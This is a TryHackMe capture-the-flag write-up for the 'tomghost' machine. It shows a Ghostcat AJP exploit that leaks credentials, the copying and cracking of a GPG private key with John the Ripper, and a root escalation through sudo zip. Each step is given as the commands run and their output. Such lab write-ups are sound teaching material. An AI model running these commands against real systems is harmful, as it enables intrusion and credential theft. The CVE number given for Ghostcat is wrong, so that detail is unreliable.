





# tomghost
**Date:** October 16th 2022

**Author:** j.info

**Link:** [**tomghost**](https://tryhackme.com/room/tomghost) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- Compromise this machine and obtain user.txt
- Escalate privileges and obtain root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/host-manager         (Status: 403) [Size: 3022]
/manager              (Status: 403) [Size: 3446]
/docs                 (Status: 200) [Size: 17481]
/examples             (Status: 200) [Size: 1126]
```

<br>

## Website Digging

Visiting the main page on port 8080 gives us an unconfigured Apache Tomcat version 9.0.30 page:



<br>

## Tomcat Digging

Checking out the [**official tomcat security notices page**](https://tomcat.apache.org/security-9.html#Fixed_in_Apache_Tomcat_9.0.30) shows us the following:



We saw AJP running on the nmap scan at port 8009 and the version of tomcat itself is vulnerable, so this sounds promising. I run a searchsploit to see if there is anything listed and find:

`searchsploit tomcat`

```
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                     | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)       | multiple/webapps/49039.rb
```

Coincidence that the word ghost is in this ctf name and also in the vulnerabillity? I doubt it.

Starting up metasploit and testing it out:

```
msfconsole
use auxiliary/admin/http/tomcat_ghostcat
set rhosts 10.10.43.109
run
```

And we get back the web.xml file, and inside it there appears to be a hard coded username and password:

```xml
  <description>
     Welcome to GhostCat
        skyf*ck:<REDACTED>
  </description>
```

The web.xml file was used because it often contains sensitive information. A description of the file:

```
/WEB-INF/web.xml - The Web Application Deployment Descriptor for your application. This is an XML file describing the servlets and other components that make up your application, along with any initialization parameters and container-managed security constraints that you want the server to enforce for you. This file is discussed in more detail in the following subsection.
```

I also try and view the /META-INF/context.xml file since it can also have sensitive information but it does not work.

And finally I run the Python script version of the exploit too after taking a look through the code just because:

`searchsploit -m 48143`

`python2 48143.py $ip`

And we get back the web.xml file just like we did in metasploit. Note: when running this exploit with the python3 or python commands it gave me a buffer overflow error, but python2 did work. It also defaults the port to 8009 and file to web.xml so we don't need to specify those parameters.

<br>

## System Access

I try and ssh over with the username and password we found and it works:

```
The authenticity of host '10.10.43.109 (10.10.43.109)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.43.109' (ED25519) to the list of known hosts.
skyf*ck@10.10.43.109's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyf*ck@ubuntu:~$
```

<br>

## System Enumeration (skyf*ck)

We need a password for `sudo -l` so no luck there.

No interesting capabilities when checking `getcap -r / 2>/dev/null`

Looking for SUID files with `find / -perm /4000 2>/dev/null` doesn't have anything out of the ordinary.

Other than root and our current user we have one other with a login shell:

```
merlin:x:1000:1000:zrimga,,,:/home/merlin:/bin/bash
```

Taking a look in the merlin home directory shows us our first flag:

`wc -c /home/merlin/user.txt`

```
26 /home/merlin/user.txt
```

I look to see if there is a web directory at /var/www and it doesn't exist. After looking a bit more the website is run out of /opt/tomcat but we don't have access to do much with it.

In the /home/skyf*ck directory we see two out of the ordinary files:

```
-rw-rw-r-- 1 skyf*ck skyf*ck  394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyf*ck skyf*ck 5144 Mar 10  2020 tryhackme.asc
```

So it looks like we need to decrypt the credentia.gpg file with the tryhackme.asc key.

`gpg --import tryhackme.asc`

```
gpg: key C6707170: secret key imported
gpg: /home/skyf*ck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

And trying to decrypt:

`gpg --decrypt credential.pgp`

```
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase:
```

Alright so we need a passphrase, let's get that.

I start up a phython http server on the THM machine so I can download the .asc file to my machine and then wget the file over to my machine:

`python3 -m http.server`

`wget $ip:8000/tryhackme.asc`

```
--2022-10-16 11:27:08--  http://10.10.43.109:8000/tryhackme.asc
Connecting to 10.10.43.109:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5144 (5.0K) [text/plain]
Saving to: ‘tryhackme.asc’

tryhackme.asc             100%[=====================================>]   5.02K  --.-KB/s    in 0s      

2022-10-16 11:27:08 (16.4 MB/s) - ‘tryhackme.asc’ saved [5144/5144]
```

Then I convert the tryhackme.asc file into a crackable format:

`gpg2john tryhackme.asc > hash`

And crack it with John the Ripper:

`john hash --wordlist=rockyou.txt`

```
<REDACTED>        (tryhackme)     
Session completed.
```

Ok now that we have the passphrase I try and decrypt the credential.pgp file again:

`gpg --decrypt credential.pgp`

```
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:<REDACTED>
```

That's certainly a long password. With that we should now be able to laterally move over to the merlin user:

`su merlin`

```
Password: 
merlin@ubuntu:/home/skyf*ck$
```

Again I start with some of the basics and `sudo -l` shows us:

```
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Looking at [**GTFOBins for the zip command**](https://gtfobins.github.io/gtfobins/zip/#sudo) shows us:



<br>

## Root

I use their example and zip up the user.txt located in /home/merlin:

`sudo /usr/bin/zip mktemp -u user.txt -T -TT 'sh #'`

```
        zip warning: mktemp.zip not found or empty
  adding: user.txt (stored 0%)
# whoami
root
#
```

And we have root!

Grabbing our root flag:

`wc -c /root/root.txt`

```
17 /root/root.txt
```

If you want a little insight into how the author created this CTF you can look at the /home/merlin/.bash_history file.

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a website vulnerable to the **Ghostcat vulerability** (CVE-2020-10487)
- Using the **Ghostcat exploit** to view sensitive files on the system and obtain login credentials for our initial foothold on the system
- Seeing an encrypted file and it's key in our users home directory and decrypting it with **GPG** after we crack the passphrase with **John the Ripper**
- Using the credentials we found in the GPG file to laterally move to a user who is able to run **zip** as root and exploiting that to escalate over to root

<br>

Many thanks to:
- [**stuxnet**](https://tryhackme.com/p/stuxnet) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)